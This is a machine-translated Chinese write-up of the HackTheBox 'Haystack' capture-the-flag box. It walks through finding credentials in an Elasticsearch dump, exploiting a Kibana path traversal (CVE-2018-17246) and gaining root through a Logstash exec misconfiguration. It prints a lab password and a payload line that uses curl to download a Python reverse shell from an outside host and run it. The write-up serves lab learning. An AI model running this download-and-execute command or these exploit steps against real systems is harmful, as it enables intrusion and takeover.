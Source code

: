 # Haystack — HackTheBox 详细报道

> 原文：<https://infosecwriteups.com/haystack-hackthebox-writeup-7dfd8a6fed5?source=collection_archive---------0----------------------->

## Haystack 本周退役，这是一个简单的难度框，我们可以在其中看到一些隐写内容，并从弹性搜索数据库中获得初始凭证。有了获得的凭证，我们可以 SSH 进入，并通过利用基巴纳中的 CVE-2018–17246，我以基巴纳的身份获得 shell。Kibana 用户可以访问 LogStash config，该配置被错误配置为允许以根用户身份通过错误配置的日志执行代码。

![](img/eca494d30aee84799cfb3c8350b59beb.png)

# 计数和侦察

让我们从 nmap 扫描开始，

![](img/25e0b67a1559bca93ccdb5ba6bc32e32.png)

我们看到端口 **22、80、9200** 是打开的。这里要注意的一点是 ***端口 80*** 的内容类型为`**text/html**`，而 ***端口 9200*** 的内容类型为`**application/json**`，我们可以认为它正在运行某种 API。因为 API 通常在`JSON`返回数据

# 80 — HTTP

网站看起来像这样，

![](img/d5da639b048c366d482dbd8d7b8cc37b.png)

它有一个大海捞针的形象，就是这样。`**gobuster**`没发现什么有趣的东西。由于这是一个 CTF 挑战赛，我猜想图像一定有问题，因为图像是 80 端口上唯一的东西。当我第一次解决这个问题时，我运行了一些基本的隐写工具，但一无所获。我的一个朋友告诉我比这简单，然后我在上面运行`**strings**`工具来找到一个 base64 字符串。他们说是 CTF，是 CTF。

![](img/f75974a0336ff2396e76851f64380781.png)![](img/a6721490ece0a9ba788546f3458ba7e5.png)

# 弹性搜索— 9200

它正在运行`**version 6.4.2**`弹性搜索。我阅读了它的文档以获得一些概述。

![](img/9d4c824101c070c9125a9b0558c0c427.png)

我想办法转储数据库，无意中发现了 https://github.com/taskrabbit/elasticsearch-dump 和 T21。

看文档我们可以通过
[https://www . elastic . co/guide/en/elastic search/reference/6.4/getting-started-list-indexes . html # getting-started-list-indexes](https://www.elastic.co/guide/en/elasticsearch/reference/6.4/getting-started-list-indices.html#getting-started-list-indices)返回指数

![](img/358de294688403789e84373b4623eb50.png)

我们可以看到我们有两个索引，`**quotes**`和`**bank**`。从`**elasticdump**`开始倾倒吧。

![](img/e90efdfe834274fb1af9f751a90a4abd.png)

让我们分析一下我们得到的转储。记住引用的信息`**the needle in the haystack is key**`。

![](img/8d1c3d1c9b72a503f05ac477118584f4.png)

引号的最后几个字看起来像一个`**base64 string**`。

![](img/6a555f084d2be071302fe53c63eb3f85.png)

> **找到凭证。
> 用户:安全
> 通行证:spanish.is.key**

# 壳作为担保

![](img/fe5277210574a9dc1987929b61808b8a.png)

# 基巴纳列兵

我们可以安全地假设我们正在处理一个`**ELK**`栈，它代表
**Elasticsearch，Logstash，Kibana。**

查看正在运行的进程，我可以看到机器正在按预期运行 kibana 和 logstash。

因为 kibana 是在内部运行的，所以我用

```
**ssh security@10.10.10.115 -L 5601:127.0.0.1:5601**
```

![](img/a8529fb1021073adc73dbd98920903f0.png)

我们可以断定它正在运行`**kibana 6.4.2**`。快速的谷歌搜索让我们来到**CVE-2018–17246**。
[https://github.com/mpgn/CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)

# 壳牌作为基巴纳

> 浏览到网址，
> [http://localhost:5601/API/console/API _ server？SENSE _ VERSION = @ @ SENSE _ VERSION&API =../../../../../../.../../../../../../../../../../../../tmp/test.js](http://localhost:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../../../../../../../../../tmp/test.js)

![](img/b51010554e73fa75eb06914e94329dbb.png)

为了了解麋鹿栈，我们可以看看图片。

![](img/4da0aa191a3f33bd83f97e861f27b122.png)

> “ELK”是三个开源项目的缩写:Elasticsearch、Logstash 和 Kibana。Elasticsearch 是一个搜索和分析引擎。Logstash 是一个服务器端数据处理管道，它同时从多个来源获取数据，对其进行转换，然后将其发送到像 Elasticsearch 这样的“stash”。Kibana 允许用户在 Elasticsearch 中用图表和图形可视化数据。
> 
> 简而言之，
> E — Elasticsearch —是搜索和分析引擎
> L — Logstash —处理和存储日志
> K—ki Bana—elastic search 中数据的可视化工具。

所以到目前为止，我们已经放弃了 Elasticsearch，把 shell 作为 Kibana 的用户。我的猜测是在 logstash 中寻找有趣的东西。

# Root 权限

`**logstash**`的配置文件在`**/etc/logstash/conf.d**`中

![](img/2b5fac8b27b03a8dd2dbaae56a89dfe0.png)

```
**input.conf**input {
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
                type => "execute"
                mode => "read"
        }
}
```

[](https://www.elastic.co/guide/en/logstash/current/configuration-file-structure.html) [## 配置文件的结构|日志参考[7.4] |弹性

### 对于您想要添加到事件处理管道中的每种类型的插件，Logstash 配置文件都有一个单独的部分…

www.elastic.co](https://www.elastic.co/guide/en/logstash/current/configuration-file-structure.html) 

`**input.conf**`正在`**/opt/kibana/**`中查找文件名类似`**logstash_***`的文件。这每十秒钟运行一次。

```
**filter.conf**filter{
        if [type] == "execute" {
                grok {
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }
        }
}
```

如果类型为`**execute**`并且消息格式为
`**Ejecutar commando : <command>**`

```
**output.conf**if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
```

根据`**output.conf**` ，类型`**execute**`的输入将使用`**exec**`插件运行。

收集完所有信息并拥有适当的权限后，让我们将反向 shell 放在`**/opt/kibana/logstash_test**`中。

`**logstash_test**`的内容:

```
**Ejecutar comando: curl 10.10.15.236/pyshell.py -o /tmp/kk.py;python /tmp/kk.py**
```

![](img/bcb3be1dd66bc1393459b9cfbcb7b3f0.png)

干草堆扎根。

感谢阅读，
Preetham。

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)